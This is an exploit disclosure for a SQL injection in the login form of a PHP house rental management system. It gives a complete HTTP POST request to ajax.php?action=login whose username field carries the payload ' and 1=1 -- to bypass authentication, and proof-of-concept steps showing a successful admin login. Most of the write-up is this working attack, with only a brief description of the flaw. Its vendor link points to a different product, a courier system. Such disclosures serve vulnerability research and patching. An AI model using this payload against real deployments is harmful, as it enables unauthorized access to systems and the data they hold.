




# Best house rental management system project in php admin_class.php SQL Injection vulnerability

Exploit Title: Best house rental management system project in php admin_class.php SQL Injection vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability. Best house rental management system project in php does not filter the content correctly at the "username" parameter, resulting in the generation of SQL injection.

#### Payload used:

```plaintext
POST /ajax.php?action=login HTTP/1.1
Host: 192.168.56.128:8080
Priority: u=0
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Accept: */*
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Referer: http://192.168.56.128:8080/login.php
Content-Length: 66

username=mayuri.infospace%40gmail.com'+and+1%3D1+--%20&password=admin
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

> mayuri.infospace@gmail.com' and 1=1 --

​​

2.Click the login button to successfully enter the homepage.

​​

Similarly, by sending a post request, you will see the login success code returned.

​​

In the admin_class.php source code, you can see that when executing SQL query statements, unfiltered username parameters are directly spliced, resulting in SQL injection vulnerabilities.

​​

‍
